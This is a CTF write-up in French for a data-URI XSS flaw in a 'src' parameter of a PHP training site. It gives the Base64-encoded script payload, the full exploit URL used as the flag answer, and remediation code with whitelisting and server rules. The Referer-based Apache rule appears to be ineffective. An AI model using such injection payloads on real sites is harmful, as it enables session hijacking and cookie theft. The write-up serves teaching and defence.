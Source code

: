 # Vulnérabilité d'Injection via Data URI

## 1. Description de la Faille
Cette vulnérabilité permet d'injecter du code arbitraire via un paramètre `src` en utilisant le protocole data URI, permettant l'exécution de scripts côté client.

## 2. Localisation
- URL vulnérable : `http://{IP}/index.php?page=media&src=nsa`
- Point d'entrée : Paramètre `src`
- Déclencheur : Logo NSA clickable

## 3. Exploitation

### Étape 1 : Comprendre la Structure
URL originale :
```
http://{IP}/index.php?page=media&src=nsa
```

### Étape 2 : Préparer le Payload
1. Script à injecter :
```javascript
<script>alert('toto')</script>
```

2. Encoder en Base64 :
```
PHNjcmlwdD5hbGVydCgndG90bycpPC9zY3JpcHQ+
```

### Étape 3 : Construire le Data URI
Format :
```
data:text/html;base64,PHNjcmlwdD5hbGVydCgndG90bycpPC9zY3JpcHQ+
```

### Étape 4 : URL Finale d'Exploitation
```
http://{IP}/index.php?page=media&src=data:text/html;base64,PHNjcmlwdD5hbGVydCgndG90bycpPC9zY3JpcHQ+
```

## 4. Impact de la Faille
1. Exécution de code arbitraire :
   - XSS
   - Vol de cookies
   - Manipulation du DOM

2. Risques :
   - Détournement de session
   - Phishing
   - Compromission du navigateur

## 5. Comment Corriger

### Solution en PHP avec Base de Données
```php
class MediaManager {
    private $db;
    private $allowed_media = ['nsa', 'logo', 'header'];
    
    public function getMedia($identifier) {
        // Validation de l'identifiant
        if (!in_array($identifier, $this->allowed_media)) {
            throw new SecurityException('Media non autorisé');
        }
        
        // Récupération depuis la base de données
        $stmt = $this->db->prepare('SELECT path FROM media WHERE identifier = ?');
        $stmt->execute([$identifier]);
        
        return $stmt->fetchColumn();
    }
}
```

### Structure de la Base de Données
```sql
CREATE TABLE media (
    id INT PRIMARY KEY AUTO_INCREMENT,
    identifier VARCHAR(50) UNIQUE NOT NULL,
    path VARCHAR(255) NOT NULL,
    mime_type VARCHAR(100) NOT NULL,
    created_at TIMESTAMP DEFAULT CURRENT_TIMESTAMP
);

-- Données d'exemple
INSERT INTO media (identifier, path, mime_type) VALUES
('nsa', '/images/nsa.jpg', 'image/jpeg'),
('logo', '/images/logo.png', 'image/png');
```

## 6. Bonnes Pratiques

### Gestion des Ressources
1. Utiliser des identifiants uniques
2. Stocker les chemins en base de données
3. Valider les types MIME
4. Restriction des accès aux fichiers

### Implémentation Sécurisée
```php
class SecureMediaLoader {
    public function loadMedia($id) {
        // Whitelist de types MIME autorisés
        $allowed_types = ['image/jpeg', 'image/png', 'image/gif'];
        
        // Récupération du média
        $media = $this->getMediaFromDatabase($id);
        
        // Validation du type
        if (!in_array($media['mime_type'], $allowed_types)) {
            throw new SecurityException('Type de média non autorisé');
        }
        
        // Envoi sécurisé
        return $this->sendSecureMedia($media);
    }
}
```

## 7. Protection Additionnelle

### Configuration Serveur
```apache
# Apache - Protection supplémentaire
<Location /media>
    # Interdire les data URIs
    SetEnvIfNoCase Referer "^data:" bad_referer
    Order Allow,Deny
    Allow from all
    Deny from env=bad_referer
</Location>
```

### Validation des Ressources
```php
function validateResource($src) {
    // Liste blanche d'identifiants valides
    $valid_resources = ['nsa', 'logo', 'header'];
    
    // Vérification basique
    if (!in_array($src, $valid_resources)) {
        return false;
    }
    
    // Vérification supplémentaire du format
    if (strpos($src, 'data:') === 0) {
        return false;
    }
    
    return true;
}
```

## 8. Pour le CTF
Pour obtenir le flag, utiliser cette URL :
```
http://{IP}/index.php?page=media&src=data:text/html;base64,PHNjcmlwdD5hbGVydCgndG90bycpPC9zY3JpcHQ+
```

## 9. Ressources
- OWASP XSS Prevention
- Data URI Security Considerations
- Content Security Policy Guide